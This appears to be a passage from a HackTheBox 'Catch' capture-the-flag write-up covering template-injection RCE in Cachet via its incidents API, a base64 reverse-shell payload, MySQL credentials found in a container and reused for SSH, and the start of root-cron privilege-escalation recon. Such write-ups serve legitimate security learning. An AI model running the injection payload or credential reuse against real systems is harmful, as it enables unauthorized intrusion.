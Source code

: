 
**Testing out RCE**
 Saving the payload as template

![[Pasted image 20220616124753.png]]

 Sending a POST request with Header `X-Cachet-Toekn` set to `api_key` of user to execute our payload.

```shell
┌──(kali㉿kali)-[~/Desktop/Catch]
└─$ curl -X POST -H "X-Cachet-Token: 7GVCqTY5abrox48Nct8j" -d "visible=0&status=1&name=aaa&template=aaa" http://catch.htb:8000/api/v1/incidents | jq
```

![[Pasted image 20220616125152.png]]

**Got the Result back !!**

Now we can save a Reverse Shell payload

```text
{{["echo <RevShell_b64> | base64 -d | bash"]|filter("system")|join(",")}}
```


## Getting User

Now that we got a reverse shell but it seems it's inside a **Docker Container**

While searching for some useful processes found an odd process.

![[Pasted image 20220616125610.png]]

On Reading that particular file found Credentials for **MySQL** server.

![[Pasted image 20220616125703.png]]


```text
will : s2#4Fg0_%3!
```

And password was re-used as for **SSH**


## Privilege Escalation

Running **linPEAS** found a readble file belonging to root

```text
-rwxr-x--x+ 1 root root 1894 Mar  3 14:23 /opt/mdm/verify.sh 
```

On running **pSPY** found that this file was being run by `root` as background process.

```text
2022/06/16 06:16:01 CMD: UID=0    PID=40022  | /usr/sbin/CRON -f 
2022/06/16 06:16:01 CMD: UID=0    PID=40021  | /usr/sbin/CRON -f 
2022/06/16 06:16:01 CMD: UID=0    PID=40025  | /bin/bash /opt/mdm/verify.sh 
2022/06/16 06:16:01 CMD: UID=0    PID=40024  | /bin/sh -c rm -rf /root/mdm/certified_apps/* 
2022/06/16 06:16:01 CMD: UID=0    PID=40023  | /bin/sh -c /opt/mdm/verify.sh 
2022/06/16 06:16:01 CMD: UID=0    PID=40029  | cut -d . -f1 
2022/06/16 06:16:01 CMD: UID=0    PID=40027  | /bin/bash /opt/mdm/verify.sh 
2022/06/16 06:16:01 CMD: UID=0    PID=40030  | openssl rand -hex 12 
2022/06/16 06:16:01 CMD: UID=0    PID=40031  | mv /opt/mdm/apk_bin/*.apk /root/mdm/apk_bin/bf88e2109676ef8333a90f11.ap
```
